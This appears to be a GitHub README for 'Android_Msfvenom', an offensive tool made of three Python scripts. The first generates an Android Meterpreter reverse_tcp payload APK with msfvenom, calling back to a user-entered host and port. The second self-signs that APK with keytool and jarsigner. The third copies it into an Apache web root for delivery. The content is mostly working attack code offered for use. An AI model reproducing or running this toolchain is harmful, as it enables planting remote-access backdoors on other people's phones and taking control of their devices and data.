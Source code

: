 ```
 ______  __   __  _____   ______  ______  __  _____       ______  ______  ______  ______  ______  ______    
/\  __ \/\ "-.\ \/\  __-./\  == \/\  __ \/\ \/\  __-.    /\  __ \/\  ___\/\  ___\/\  ___\/\  ___\/\  ___\   
\ \  __ \ \ \-.  \ \ \/\ \ \  __<\ \ \/\ \ \ \ \ \/\ \   \ \  __ \ \ \___\ \ \___\ \  __\\ \___  \ \___  \  
 \ \_\ \_\ \_\\"\_\ \____-\ \_\ \_\ \_____\ \_\ \____-    \ \_\ \_\ \_____\ \_____\ \_____\/\_____\/\_____\ 
  \/_/\/_/\/_/ \/_/\/____/ \/_/ /_/\/_____/\/_/\/____/     \/_/\/_/\/_____/\/_____/\/_____/\/_____/\/_____/ 
```                                                                                                  
#Android_Msfvenom
__DESCRIPTION__: A faster way to generate and sign *android files*, for mobile access (Can be hosted on a local apache server)
------------------------------------------------------------------------------------------------------------------------
__FILE__: [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py)
__USE__: This file is used to generate the apk (Android Package Kit) using metasploits [Msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

```python
import os
import time
import android_signer
import apache_server
import subprocess

#def the function to generate the apk
def android_msfvenom():
    get_gen = raw_input('[+] Generate apk using msfvenom: ')
    if get_gen == 'yes' or get_gen == 'y':
        get_name = raw_input('[+] Enter the name of the desired apk file: ')
        try:
            apk_name = get_name
        except Exception:
            print('[+] Failed to set name: {}! Exitting...'.format(apk_name))
            time.sleep(3)
        else:
            print('[+] Name set to: {}'.format(get_name))
            
        #try to change the directory
        login = os.getlogin()
        print('[+] Attempting to change directory to /{}/Desktop'.format(login))

        try:
            os.chdir('/{}/Desktop'.format(login))
        except Exception:
            working_direc = os.getcwd()
            print('[+] Could not change the directory to the desktop, look for file under {}'.format(working_direc))
        else:
            print('[+] Directory set to {}'.format(os.getcwd()))

        #get LHOST and LPORT
        get_host = raw_input('[+] Enter ip address: ')
        get_port = raw_input('[+] Enter connect back port: ')
        print('[+] Generating apk(defaulting to desktop)...')
        try:
            subprocess.call(('msfvenom -p android/meterpreter/reverse_tcp LHOST={} LPORT={} R > {}.apk'.format(get_host, get_port, get_name)), shell=True)
        except Exception:
            print('[+] Failed to generate apk! Exitting...')
            time.sleep(3)
        else:
            print('[+] Apk file successfully created! File located in {}'.format(os.getcwd()))

    elif get_gen == 'no' or get_gen == 'n':
        print('[+] Quittting...')
        exit()
        time.sleep(3)

android_msfvenom()
android_signer.sign_apk()
```

__FILE__: [android_signer.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/android_signer.py)
__USE__: This file is used to sign the apk file, that can be created using [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py), the file is then signed using [jarsigner](http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html), will a validity of [10,000 days](https://www.google.com/webhp?sourceid=chrome-instant&ion=1&espv=2&ie=UTF-8#q=10+000+days+in+years) (27 years)

```python
import os
import time
import apache_server
import subprocess

#def the function to sign the apk
def sign_apk():
    os.chdir(('/{}/Desktop'.format(os.getlogin())))
    subprocess.call('ls -alt', shell=True)
    get_apk = raw_input('[+] Enter the name of the apk file: ')

    try:
        keystore = raw_input('[+] Enter key store name (d for default): ')
        if keystore == 'd':
            keystore = 'my-release-key'
        else:
            keystore = keystore
        subprocess.call(('keytool -genkey -V -keystore {}.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000'.format(keystore)), 
                                                                                                                                        shell=True)
    except Exception:
        print('[+] Could not generate keystore, alias, keyalg, or keysize! Validity set to 0! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Keystore, Alias, Keyalg, Keysize, and validity generated! Executing Jarsigner... ')

    try:
        subprocess.call(('jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore {}.keystore {} alias_name'.format(keystore, get_apk)), 
                                                                                                            shell=True)
    except Exception:
        print('[+] Could not execute jarsigner command line arguments! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Successfully executed jarsigner! Checking if {} was successfully signed...'.format(get_apk))

    try:
        subprocess.call(('jarsigner -verify -verbose -certs {}'.format(get_apk)), shell=True)
    except Exception:
        print('[+] Could not verify that the apk {} was signed! You may run into problems later! Exitting...'.format(get_apk))
        time.sleep(3)
        exit()
    else:
        print('[+] Apk file {} was signed successfully! Executing apache server function...'.format(get_apk))
        time.sleep(2)
        server_start()

def server_start():
    apache_server.start_apache()
```

__FILE__: [apache_server.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/apache_server.py)
__USE__: This file is used to start the [apache2](https://httpd.apache.org/) server (/etc/init.d/apache2 start), and upload the generated apk file to /var/www/html

```python
import time
import os
import subprocess
from datetime import datetime

#def the function for uploading the apk file to the server
def start_apache():
    print('[+] Starting apache server...')
    time.sleep(3)
    try:
        subprocess.call('service apache2 start', shell=True)
    except Exception:
        print('[+] Could not start apache server! Exitting...')
        time.sleep(3)
        exit()
    else:
        subprocess.call('ls -alt /var/www/html', shell=True)
        print('[+] Apache server started!')
        time.sleep(3)
        server_upload()
        
def server_upload():
    subprocess.call('ls -alt', shell=True)
    file_upload = raw_input('[+] Apache server started! Choose file to upload to server: ')
    try:
        subprocess.call(('mv /{}/Desktop/{} /var/www/html'.format(os.getlogin(), file_upload)), shell=True)
    except Exception:
        print('[+] Could not move /{}/Desktop/{} to /var/www/html! Try moving the file manually! Apache server is up and running! Exitting...')
        time.sleep(3)
        exit()
    else:
        ip = raw_input('[+] Enter current ip address: ')
        print('[+] Ip address set to: {}'.format(ip))
        check_file = raw_input('[+] /{}/Desktop/{} was successfully move to /var/www/html! Open browser to view uploads: '.format(os.getlogin(),
                                                                                                                                    file_upload))
        if check_file == 'yes' or 'y':
            print('[+] Starting browser...')
            time.sleep(3)
            try:
                subprocess.call(('firefox {}'.format(ip)), shell=True)
            except Exception:
                print('Firefox is not installed! Trying Chrome...')
                try:
                    subprocess.call(('chrome {}'.format(ip)), shell=True)
                except Exception:
                    print('Chrome is not installed! Trying iceweasel...')
                    try:
                        subprocess.call(('iceweasel {}'.format(ip)), shell=True)
                    except Exception:
                        system = platform.system()
                        print('[+] Could not determine browser running on your {} machine! Try navigating manually! Exitting...'.format(system))
                        time.sleep(3)
                        exit()
                    else:
                        print('[+] Finished with exit code 0!')
                        exit()
                else:
                    print('[+] Finished with exit code 0!')
                    exit()
            else:
                print('[+] Finished with exit code 0!')
                exit()
        elif check_file == 'no' or check_file == 'n':
            print('[+] Exitting...')
            time.sleep(3)
```


